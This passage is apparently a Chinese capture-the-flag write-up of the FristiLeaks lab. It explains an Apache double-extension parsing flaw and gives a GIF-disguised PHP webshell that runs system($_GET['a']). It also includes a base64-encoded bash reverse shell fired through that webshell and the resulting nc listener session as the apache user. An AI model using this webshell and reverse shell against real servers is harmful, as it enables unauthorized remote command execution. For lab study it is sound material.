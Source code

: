 由于是 apache 服务器，这里可以尝试下解析漏洞，先传个图片马看看解析不解析

```
1）关于Apache的服务器是在Apache1.x，2.x 中Apache 解析文件的规则是从右到左开始判断解析, 如果后缀名为不可识别文件解析, 就再往左判断。
但是后端的centos是从左到右解析文件的。
举个例子：如果一个文件后缀是 1.php.jpg
那么apache从右到左认为他是图片，centos从左到右认为他是一个php。
这里造成了apache特有的解析漏洞。
```

图片马 backdoor.php：

```php
GIF89a
<?php
system($_GET['a']);
phpinfo();
?>
```

上传后可以执行命令

<img src=".\图片\Snipaste_2023-06-20_12-53-37.png" alt="Snipaste_2023-06-20_12-53-37" style="zoom:80%;" />

## 反弹shell技巧

get 请求里还可以 bash 执行用 base64 编码后的反弹shell

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTAzLzY2NjYgMD4mMQ== | base64 -d | bash
```

url编码后执行

```http
http://192.168.0.104/fristi/uploads/backdoor.php.gif?a=echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjAuMTAzLzY2NjYgMD4mMQ%3D%3D%20%7C%20base64%20-d%20%7C%20bash
```

kali 监听 ， `rlwrap` 可以使用 nc 反弹shell 后 上翻下翻键。此时是 apache 用户

```bash
┌──(root💀kali)-[~/FristiLeaks]
└─# rlwrap nc -lvnp 6666                                                                                                                                127 ⨯
listening on [any] 6666 ...
connect to [192.168.0.103] from (UNKNOWN) [192.168.0.104] 42365
bash: no job control in this shell
bash-4.1$ uname -a
uname -a
Linux 192.168.0.104 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
bash-4.1$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```